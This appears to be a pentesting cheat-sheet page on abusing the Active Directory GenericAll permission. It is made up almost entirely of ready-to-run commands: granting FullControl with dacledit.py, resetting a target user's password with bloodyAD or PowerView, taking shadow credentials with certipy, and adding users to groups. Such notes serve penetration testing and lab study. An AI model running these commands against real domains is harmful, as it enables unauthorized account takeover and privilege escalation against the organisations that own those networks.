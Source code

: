 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["GenericAll", "active driectory", "ad", "Windows", "shadow credentials"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Install latest impacket (included dacledit.py) \[optional\]

<div>

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

</div>

#### 1. Add Full Control to current user

<div>

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

</div>

#### 2. Change password

{{< tab set2 tab1 active >}}BloodyAD{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Change target user password

<div>

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 0. Install latest impacket (included dacledit.py) \[optional\]

<div>

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

</div>

#### 1. Add Full Control to current user

<div>

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

</div>

#### 2. Get shadow credentials

<div>

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = "<DOMAIN>\<USER>"
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 2. Add user to group

<div>

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>